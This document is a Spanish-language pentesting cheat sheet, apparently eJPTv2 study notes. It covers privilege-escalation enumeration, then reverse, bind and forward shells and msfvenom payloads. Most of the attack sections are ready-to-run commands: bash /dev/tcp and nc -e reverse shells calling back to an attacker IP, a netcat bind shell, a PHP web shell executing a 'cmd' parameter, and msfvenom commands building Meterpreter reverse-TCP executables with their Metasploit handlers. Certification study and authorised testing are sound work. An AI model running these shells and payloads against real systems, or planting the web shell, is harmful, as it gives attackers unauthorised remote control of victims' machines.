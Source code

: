 ```yaml
---

---
```


------
## Enumeración una vez ganamos acceso para elevar privilegios

> Webs

- [GtfObins](https://gtfobins.github.io/)
- [HAcktricks](https://book.hacktricks.wiki/en/index.html)
- [IA - Hacktrics](https://www.hacktricks.ai/)


> Tools
- [LSE](https://github.com/diego-treitos/linux-smart-enumeration)
- [PSPY](https://github.com/DominicBreuker/pspy)

> Commands Para **SUID** para **SGID**
```bash
SGID
find / -perm -4000 -o -perm -2000 -exec ls -ld {} \; 2>/dev/null
SUID
find -perm -4000 -ls 2>/dev/null
AMBOS
ls -alh /path/to/check | grep 's'
``` 
> Commands para ver capabilities
> Podemos ver ciertas tareas privilegiadas con el user actual

```bash
getcap -r / 2>/dev/null
```

>Ver que tarea se ejecuta

- [PSPY](https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64)

```bash
systemctl list-timers
```

>Ver que comando se  ejecuta  y que usuarios lo ejecutan

```bash
ps -eo command
ps -eo user,command
```

- Script --> [**currentcommand.sh**](D:\Training\eJPTv2\Payloads\currentcommandSystem.sh)
```bash
#!/bin/bash

function ctrl_c(){
	echo -e "\n\n[!] Saliendo...\n"
	tput cnorm: exit 1 #Recuperar cursor
}

# Habilitar Ctrl+c
trap ctrl_c SIGINT

old_process=$(ps -eo user,command)

tput civis # Ocultar cursor

while true; do
	new_process=$(ps -eo user,command)
	diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "command|kworker|procmon"
	old_process=$new_process
done
```
## Netcat - nc (también tenemos ncat, n.traditional)

> -e --> **esta flag coge el archivo a utilizar**

> -nvlp --> escucho a una IP, en modo verbose, a la escucha, por el puerto que le especifique

## Reverse shells

- [RevShell](https://www.revshells.com/)
- [Pentest Monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [Buena Node.js Reverse](https://medium.com/dont-code-me-on-that/bunch-of-shells-nodejs-cdd6eb740f73)
- [Node.js](https://github.com/appsecco/vulnerable-apps/tree/master/node-reverse-shell) 

>En este caso mando una shell y me pongo a la escucha desde la ip atacante

 - **Desde máquina víctima**

```bash
nc -e /bin/bash ip_atacante 8080

bin/bash -c 'bash -i >& /dev/tcp/192.168.1.135/6501 0>&1'
bash -c 'bash -i >& /dev/tcp/ip_atacante/port 0>&1'
bash -c "bash -i >& /dev/tcp/ip_atacante/port 0>&1"
bash%20-c%20"bash%20-i%20>%26%20/dev/tcp/ip_atacante/port%200>%261"
bash -i >& /dev/tcp/ip_atacante/port 0>&1

# En meterpreter para estar más cómodos
/bin/bash -i
```

- Si tenemos una **rbash(restricted bash)** una vez hemos ganado acceso por ssh, únicamente poner bash al final
```bash
ssh user@IP bash
```

- **Desde máquina atacante**
```bash
rlwrap nc -nvlp 8080
```

- **Una vez estemos dentro**
```bash
script /dev/null -c bash
```


## Bind shell

> En este caso me pongo en esucha desde la víctima con una shell y desde mi consola me conecto
- **Desde máquina víctima**

```bash
nc -nvlp 4646 -e/bin/bash
```

- Desde máquina atacante
```bash
rlwrap nc ip_víctima 4646
```

## Forward Shell

> En este caso se bloquea el tráfico saliente  por lo que usaremos temo files para conseguir leer el output en otro archivo 

```bash
nano cmd.php
```

```php
<?
	echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```

- Así consulto comandos en la web
http://192.168.1.135/cmd.php?cmd=whoami


- **Pero en este caso queremos una shell interactiva que nos han capado**

```php
<?php
	echo shell_exec($_REQUEST['cmd']);
?>
```




>Debemos ejecutar una revshell por el puerto 443
```bash
nc -e /bin/bash ip_atacante 443
```

>****Manda archivos temporales con la salida del comando ejecutado a nuetsrro PC, dejándolos en memoria e la máquina víctima y eliminando cualquier rastro****
	
[tty_over_http.py](https://github.com/s4vitar/ttyoverhttp/blob/master/tty_over_http.py)

- **Simplemente ejecuto** `python3 tty_over_http.py` **y he ganado acceso sin necesidad de mandar una shell desde la víctima**
```bash
script /dev/null -c bash
```
## Payloads

#DiferenciasDePayloads

>La diferencia es la forma en que se envían por detrás, a la hora de utilizarlo no notaremos nada.
### Staged Payloads

- Se envía en diferentes fases
- Detección más difícil
- Mucho más pequeño

- Crear payload
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -- platform Windows -a x64 LHOST=ip_ataque LPORT=port_ataque -f exe -o shell.exe
```

>En **metasploit**

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
```
### Non-Staged Payloads

- Se envía de una sóla vez
- Es más grande

- Crear payload
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp --platform Windows -a x64 LHOST=ip_ataque LPORT=port_ataque -f exe -o shell.exe
```

>En **metasploit**

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
```

> **Sin Metasploit**

```bash
msfvenom -p windows/x64/shell_reverse_tcp --platform Windows -a x64 LHOST=ip_ataque LPORT=port_ataque -f exe -o shell.exe
```

```bash
rlwrap nc -nvlp port_ataque
```